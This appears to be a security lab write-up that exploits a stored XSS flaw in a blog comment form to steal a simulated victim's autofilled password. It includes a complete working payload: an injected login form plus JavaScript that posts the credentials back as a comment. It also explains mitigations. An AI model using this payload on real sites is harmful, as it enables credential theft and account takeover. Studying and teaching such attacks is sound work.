



# Lab 05: Exploiting Cross-Site Scripting to Capture Passwords


## 1. Lab Overview

This lab demonstrates how a Stored Cross-Site Scripting (XSS) vulnerability can be exploited to capture a victim's login credentials by abusing browser password manager autofill functionality.

The application contains a vulnerable blog comment feature. A simulated victim regularly visits the blog and views its comments.

The objective was to:

1. Identify and exploit the Stored XSS vulnerability.
2. Inject a login-like form into a blog comment.
3. Use browser password manager autofill to populate the injected username and password fields.
4. Retrieve the credentials using JavaScript.
5. Submit the captured credentials back to the application.
6. Use the captured credentials to log in as the victim.

This lab demonstrates that XSS can be used for much more than executing JavaScript alerts. It can also be abused to capture sensitive information and compromise user accounts.

## 2. Understanding the Vulnerability

Stored XSS occurs when an application accepts malicious input, stores it on the server, and later displays it to other users without properly sanitizing or encoding it.

In this lab:

1. An attacker submits a comment containing malicious HTML and JavaScript.
2. The application stores the comment.
3. The simulated victim visits the blog post.
4. The browser renders the stored comment.
5. The injected JavaScript executes in the context of the vulnerable website's origin.

Because the injected JavaScript executes within the application's origin, it can interact with the page's DOM and make same-origin requests.

## 3. Identifying the Comment Functionality

The first step was to inspect the blog comment functionality and understand how comments were submitted.

The comment form contained the following fields:

| Parameter | Purpose |
|---|---|
| `csrf` | CSRF protection token |
| `postId` | Identifies the blog post |
| `comment` | Contains the submitted comment |
| `name` | Comment author's name |
| `email` | Comment author's email |
| `website` | Optional website field |

The form submitted its data to:

```http
POST /post/comment
```

### Screenshot 01 — Comment Section



### Screenshot 02 — Inspecting the Comment Form



### Important Note About the CSRF Token

The CSRF token visible in the inspected form was from my own browser session. It was not the simulated victim's token.

The injected JavaScript does not need to know the victim's CSRF token in advance. When the script executes in the victim's browser, it can access the comment form rendered in that victim's page and retrieve the token from the DOM.

This distinction is important: the token used by the attack must belong to the browser session that is making the request.

## 4. Confirming Stored XSS

Before attempting to capture credentials, I first needed to confirm that the comment functionality allowed JavaScript execution.

I used a basic test payload:

```html
<script>alert(1)</script>
```

After submitting the comment and revisiting the blog post, the JavaScript executed.

This confirmed that the application was vulnerable to Stored XSS.

The important observation was that the payload was stored by the application and executed when the affected blog post was viewed.

## 5. Understanding Browser Password Manager Autofill

After confirming the vulnerability, the next challenge was to capture the victim's username and password.

Modern browsers and password managers can recognize login forms and automatically populate their fields with saved credentials.

Two important autocomplete attributes are:

| Attribute | Purpose |
|---|---|
| `autocomplete="username"` | Identifies a username field |
| `autocomplete="current-password"` | Identifies a current-password field |

By injecting a login-like form into the vulnerable comment section, I created fields that the victim's browser password manager could recognize.

I also assigned IDs to the input fields so that JavaScript could retrieve their values.

## 6. Creating the Login Form

The first part of the payload created a form containing username and password fields.

```html
<form class="login-form">
    <input type="text" id="username" name="username"
           autocomplete="username">

    <input type="password" id="password" name="password"
           autocomplete="current-password"
           onchange="Leo()">
</form>
```

### Understanding the Form

**Username field**

```html
<input type="text" id="username" name="username"
       autocomplete="username">
```

This creates a text field that the browser can recognize as a username field.

**Password field**

```html
<input type="password" id="password" name="password"
       autocomplete="current-password"
       onchange="Leo()">
```

This creates a password field.

The `autocomplete="current-password"` attribute indicates that the field is intended for an existing account password.

The `onchange="Leo()"` event handler invokes the JavaScript function when the field's value changes and the change is committed.

**Important:** Autofill behavior and event triggering can vary between browsers and password managers. The event handler was part of the approach used in this lab.

## 7. Complete Working Payload

The following is the payload used to solve the lab.

```html
<form class="login-form">
    <input type="text" id="username" name="username"
           autocomplete="username">

    <input type="password" id="password" name="password"
           autocomplete="current-password"
           onchange="Leo()">
</form>

<script>
function Leo() {

    // Retrieve username and password
    var username = document.getElementById("username").value;
    var password = document.getElementById("password").value;

    // Retrieve CSRF token and post ID from the current page
    var csrf = document.getElementsByName("csrf")[0].value;
    var postId = document.getElementsByName("postId")[0].value;

    // Submit the captured credentials as a new comment
    fetch("/post/comment", {
        method: "POST",
        headers: {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body: new URLSearchParams({
            csrf: csrf,
            postId: postId,
            comment: "Username: " + username + " Password: " + password,
            name: "victim",
            email: "victim@example.com",
            website: ""
        })
    });
}
</script>
```

### Payload Breakdown

#### A. Retrieving the Credentials

```javascript
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
```

`document.getElementById()` retrieves an HTML element using its ID.

The `.value` property retrieves the value currently present in that input field.

In this case, the values are the username and password populated into the injected form.

#### B. Retrieving the CSRF Token and Post ID

```javascript
var csrf = document.getElementsByName("csrf")[0].value;
var postId = document.getElementsByName("postId")[0].value;
```

The original comment form contains hidden inputs for the CSRF token and blog post ID.

`document.getElementsByName()` retrieves elements using their `name` attributes.

The `[0]` accesses the first matching element.

Because the JavaScript executes in the victim's browser, these values are retrieved from the victim's currently loaded page, not from my own browser session.

#### C. Submitting the Captured Credentials

```javascript
fetch("/post/comment", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: new URLSearchParams({
        csrf: csrf,
        postId: postId,
        comment: "Username: " + username + " Password: " + password,
        name: "victim",
        email: "victim@example.com",
        website: ""
    })
});
```

The Fetch API is used to send an HTTP request from JavaScript.

The request submits a new comment containing the captured credentials.

`URLSearchParams` formats the request body as URL-encoded form data, matching the format expected by the application's comment endpoint.

## 8. Understanding the Complete Execution Flow

The complete attack can be understood as the following sequence:

1. I inspected the blog comment functionality.
2. I identified the comment submission endpoint and its required parameters.
3. I confirmed the Stored XSS vulnerability using a JavaScript alert.
4. I examined the browser password manager's autofill behavior.
5. I created a login-like form containing username and password fields.
6. I added the appropriate autocomplete attributes.
7. I attached the `Leo()` function to the password field's `onchange` event.
8. I submitted the HTML and JavaScript as a blog comment.
9. The simulated victim visited the blog post.
10. The victim's browser password manager recognized the injected login fields and populated the credentials.
11. The event handler invoked the `Leo()` function.
12. The function retrieved the username and password from the injected fields.
13. It retrieved the victim's CSRF token and post ID from the original comment form in the victim's page.
14. The Fetch API submitted the captured credentials as a new comment.
15. I retrieved the credentials from the newly created comment.
16. I used those credentials to log in as the victim.

## 9. Observing the Captured Credentials

After the simulated victim visited the blog post, the injected form was populated with the saved credentials.

The JavaScript function then submitted those values through the comment functionality.

The resulting comment exposed the captured username and password.

### Screenshot 03 — Captured Credentials



The screenshot demonstrates the result of the attack: the credentials were successfully retrieved through the stored XSS payload.

**Security note:** Do not publish screenshots containing real credentials, session tokens, or other secrets. Redact sensitive values before adding screenshots to a public repository.

## 10. Logging In as the Victim

After retrieving the credentials, I used them to authenticate to the application as the simulated victim.

This completed the lab objective.

The attack demonstrated how a stored XSS vulnerability can be escalated from arbitrary JavaScript execution to account compromise by abusing browser password manager functionality.

## 11. Important Technical Concepts Learned

### A. Stored Cross-Site Scripting

Stored XSS occurs when malicious input is saved by an application and executed when another user views the affected content.

Unlike reflected XSS, the malicious content persists on the server.

### B. DOM Manipulation

JavaScript can access and manipulate HTML elements through the Document Object Model.

In this lab, the following methods were used:

```javascript
document.getElementById("username")
```

to retrieve the username field, and:

```javascript
document.getElementsByName("csrf")
```

to retrieve the CSRF token from the page.

### C. Browser Password Manager Abuse

Password managers recognize login fields using their structure and attributes.

An attacker who can inject a convincing login form through XSS may be able to cause saved credentials to be populated into attacker-controlled fields.

### D. JavaScript Event Handlers

The `onchange` event handler executes JavaScript when an element's value changes and the change is committed.

In this lab, it invoked the `Leo()` function after the password field was populated.

### E. Fetch API

The Fetch API allows JavaScript to make HTTP requests.

It was used to submit a new comment containing the captured credentials without requiring the victim to interact with the original comment form.

### F. CSRF Tokens

CSRF tokens protect state-changing requests by requiring a valid token.

However, XSS can undermine this protection because JavaScript executing in the application's origin may be able to read CSRF tokens exposed in the page's DOM.

This demonstrates why CSRF protection alone cannot prevent attacks when an application is vulnerable to XSS.

### G. Same-Origin Policy

The Same-Origin Policy restricts how scripts from one origin interact with resources belonging to another origin.

Because the injected JavaScript executed in the vulnerable application's origin, it could interact with the page's DOM and make same-origin requests.

## 12. Why This Attack Is Dangerous

This lab demonstrates that Stored XSS can have consequences beyond displaying alert boxes or modifying webpage content.

An attacker who successfully exploits this vulnerability may be able to:

- Capture credentials through injected login forms.
- Abuse browser password managers.
- Read sensitive information exposed in the page's DOM.
- Perform authenticated actions as the victim.
- Submit requests using the victim's authenticated session.
- Potentially compromise the victim's account.

## 13. Mitigation and Prevention

**1. Context-Aware Output Encoding**

User-controlled content should be properly encoded before being inserted into HTML.

**2. HTML Sanitization**

If an application intentionally supports HTML in comments, it should use a trusted HTML sanitization library with a strict allowlist.

**3. Content Security Policy (CSP)**

A properly configured CSP can restrict unauthorized script execution and reduce the impact of XSS.

**4. Avoid Unsafe DOM Operations**

Developers should avoid inserting untrusted input through unsafe operations such as `innerHTML`.

**5. HttpOnly Cookies**

Session cookies should use the `HttpOnly` attribute to prevent JavaScript from reading them directly. This does not prevent all consequences of XSS, but it makes direct cookie theft more difficult.

**6. Secure Authentication and Password Manager Handling**

Applications should avoid exposing credential-sensitive workflows to untrusted injected content and should use appropriate browser security controls.

## 14. Key Takeaways

- Stored XSS can affect every user who visits a page containing the malicious content.
- XSS can be used to abuse browser functionality, including password manager autofill.
- The `autocomplete` attribute helps browsers identify username and password fields.
- JavaScript can retrieve values from input elements through the DOM.
- The Fetch API can submit requests using the victim's authenticated browser session.
- CSRF tokens do not protect an application against JavaScript already executing in its origin.
- A successful XSS attack can lead to credential theft and account compromise.

## 15. Conclusion

In this lab, I exploited a Stored XSS vulnerability in the blog comment functionality to capture a simulated victim's login credentials.

I first confirmed that JavaScript could execute through a stored comment. I then injected a login-like form containing username and password fields with appropriate autocomplete attributes.

When the victim visited the blog post, the browser password manager recognized the injected fields and populated the saved credentials. The injected JavaScript retrieved those values, obtained the CSRF token and post ID from the victim's currently loaded page, and submitted the credentials through the application's comment endpoint using the Fetch API.

Finally, I retrieved the credentials from the newly created comment and used them to log in as the victim.

**Key takeaway:** Stored XSS is not limited to executing arbitrary JavaScript. It can also abuse browser features, expose sensitive information, and ultimately lead to account compromise.
